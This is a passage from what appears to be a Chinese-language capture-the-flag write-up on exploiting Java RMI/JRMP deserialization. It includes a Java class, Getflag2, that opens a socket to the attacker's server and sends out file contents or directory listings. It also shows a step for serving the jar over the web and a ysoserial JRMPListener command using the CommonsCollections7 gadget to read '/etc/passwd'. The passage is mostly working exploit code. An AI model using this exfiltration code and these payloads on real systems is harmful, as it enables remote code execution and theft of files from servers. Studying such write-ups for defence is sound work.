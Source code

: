```
        return JavaVersion.isBadAttrValExcReadObj();
    `}`

`}`
```

重新打包后丢到自己的vps上，顺便在在vps打包一个getflag2.jar Getflag2.java

```
import java.io.*;
import java.net.Socket;

public class Getflag2 `{`
    public Getflag2(String fileName) `{`
        try `{`

            Socket socket = new Socket("ip", 8080);
            OutputStream socketOutputStream = socket.getOutputStream();
            DataOutputStream dataOutputStream = new DataOutputStream(socketOutputStream);

            File file = new File(fileName);

            if (file.isDirectory()) `{`
                for (File temp : file.listFiles()) `{`
                    dataOutputStream.writeUTF(temp.toString());
                `}`
            `}` else `{`
                FileInputStream fileInputStream = new FileInputStream(file);
                InputStreamReader inputStreamReader = new InputStreamReader(fileInputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);

                String line;
                while ((line = bufferedReader.readLine()) != null) `{`
                    dataOutputStream.writeUTF(line);
                `}`
            `}`
            dataOutputStream.flush();


        `}` catch (FileNotFoundException e) `{`
            e.printStackTrace();
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

然后在服务端上开一个web服务提供getflag2.jar的下载，再开一个jrmp就可以看是随缘读flag了。

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections7 '/etc/passwd'
```
